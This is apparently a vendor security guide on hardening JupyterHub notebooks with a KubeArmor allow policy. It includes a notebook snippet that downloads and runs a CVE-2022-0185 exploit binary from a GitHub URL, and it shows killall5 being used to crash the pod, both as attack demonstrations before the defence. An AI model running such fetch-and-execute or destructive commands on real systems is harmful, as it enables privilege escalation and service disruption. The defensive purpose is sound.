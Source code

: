 ```yaml
---
hide:
  - toc
---
```


JupyterHub brings the power of notebooks to groups of users. It gives users access to computational environments and resources without burdening the users with installation and maintenance tasks. While this is a great model, attackers, or unethical users might take undue advantage of this model. The very nature of the Jupyter notebook is to allow users to do remote command/code execution.

Remote Command Injection is just the start. Left unchecked, the attacker can gain unauthorized access to the kubernetes resources, exfiltrate data and mount supply chain attacks to name a few.

![](images/jupyter-notebook/jupyter-0.png)

### **Insecure Shell**

On a shell of jupyter notebook, any of the binaries are allowed to execute by default. If we try to execute some system binaries, it is observed that there is no restriction to do so. For example, consider the ```killall5``` system binary. 

![](images/jupyter-notebook/jupyter-1.png)

Executing ```killall5``` in Jupyter notebook isn’t restricted. The binary terminates all running processes and even affects the kubernetes environment as we can observe the pod getting restarted as the container crashes.

![](images/jupyter-notebook/jupyter-2.png)

### **Remote Code Injection**

Jupyter notebook by nature allows remote code injection and execution of binaries from any source. To demonstrate this, an exploit for CVE-2022-0185 can be used as provided below:

```sh
!touch exploit
import urllib.request
urllib.request.urlretrieve("https://github.com/nyrahul/CVE-2022-0185/raw/master/exploit", "exploit")
!chmod +x exploit
!./exploit
```

On running the above in the notebook, we can see the exploit binary getting executed without any resistance.

![](images/jupyter-notebook/jupyter-3.png)

Such an open environment is not desirable and AccuKnox can help with restricting this behavior by the use of KubeArmor policies.

### **Attack Prevention**

The following policy can be used to protect the Jupyter Notebook:

```sh
apiVersion: security.kubearmor.com/v1
kind: KubeArmorPolicy
metadata:
  name: protect-jupyter
  namespace: jupyter
spec:
  selector:
    matchLabels:
      app: jupyterhub
      component: singleuser-server
  network:
    matchProtocols:
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: udp
    - fromSource:
      - path: /usr/local/bin/python3.11
      protocol: tcp
  file:
    matchDirectories:
    - dir: /
      recursive: true
    - dir: /usr/local/bin/
      readOnly: true
    - dir: /bin/
      readOnly: true
    - dir: /usr/bin/
      readOnly: true
  process:
    matchDirectories:
    - dir: /usr/local/bin/
    - dir: /usr/bin/
    - dir: /bin/
  action: Allow
```

The above KubeArmor policy

- Allows only python to use network primitives

- Allows only read access to ```/usr/local/bin/``` and ```/bin/``` folders

- Allows execution only from ```/usr/local/bin/``` and ```/bin/``` folders

### **Preventing exploitation by using AccuKnox Zero Trust CNAPP**

**Step 1**:  To create the policy Navigate to Runtime Protection → Policies. Then select ***Create Policy*** option from the screen.

![](images/jupyter-notebook/jupyter-4.png)

**Step 2**: In the policy editor tool create/upload the above policy. Select the Cluster, namespace, save and then select **Save to workspace** option.

![](images/jupyter-notebook/jupyter-5.png)

**Step 3**: Apply the policy by clicking on the three dots next to the saved policy and selecting ***Apply Policy***.

![](images/jupyter-notebook/jupyter-6.png)

**Step 4**: Since this is an allow based policy, to effectively make use of it, we’ll need to set the default posture to block. 

- **Step 4.1**: Navigate to Inventory → Cloud Workloads. Select the cluster that has jupyterhub deployed and click on **View Workloads**

![](images/jupyter-notebook/jupyter-7.png)

- **Step 4.2**: Click on info at the top of the namespace where jupyterhub is deployed. Then select **Edit** in the pop up that opens

![](images/jupyter-notebook/jupyter-8.png)

- **Step 4.3**: Click on the slider to the left of Process/File to shift to the default deny mode. A green popup appears on successful update.

![](images/jupyter-notebook/jupyter-9.png)

**Step 5**: Now try executing ```!killall5``` in the jupyter notebook instance.

Try downloading and executing the exploit of CVE-2022-0185 with the script that was introduced above.

![](images/jupyter-notebook/jupyter-10.png)

Alerts are generated for the attempts to exploit:

```sh
root:
  Action:Block
  ClusterName:gke-demo
  ContainerID:36e9a4bcf13b3e72aac683dc864414f7d122792b9f8d734f8b230a588cdfdb05
  ContainerImage:quay.io/jupyterhub/k8s-singleuser-sample:3.3.5@sha256:a839b70b9061119ef4117f37f25133d68294c764ae1c1048726c3e65b809d8eb
  ContainerName:notebook
  Cwd:/
  Data:lsm=SECURITY_BPRM_CHECK
  Enforcer:BPFLSM
  HostName:gke-do-637-cluster-pool-1-6a8519c6-d7x3
  HostPID:3410014
  HostPPID:3410013
  Labels:hub.jupyter.org/servername=,hub.jupyter.org/username=user1,release=jupyter-release,app=jupyterhub,chart=jupyterhub-3.3.5,component=singleuser-server,heritage=jupyterhub,hub.jupyter.org/network-access-hub=true
  NamespaceName:jupyter
  Operation:Process
  Owner:
    Name:jupyter-user1
    Namespace:jupyter
    Ref:Pod
  PID:49
  PPID:48
  ParentProcessName:/bin/dash
  PodName:jupyter-user1
  PolicyName:DefaultPosture
  ProcessName:/home/jovyan/exploit
  Resource:/home/jovyan/exploit
  Result:Permission denied
  Source:/bin/dash
  Timestamp:1712060619
  Type:MatchedPolicy
  UID:1000
  cluster_id:25444
  component_name:kubearmor
  instanceGroup:0
  instanceID:0
  workload:1
```

The result is permission denied for both as the policy applied does not allow any process to execute other than the ones present in ```/usr/local/bin```, ```/usr/bin/``` and ```/bin/``` directories. In addition, since the policy also prevents write to these directories, the jupyter environment is shielded from execution of malicious code by attackers.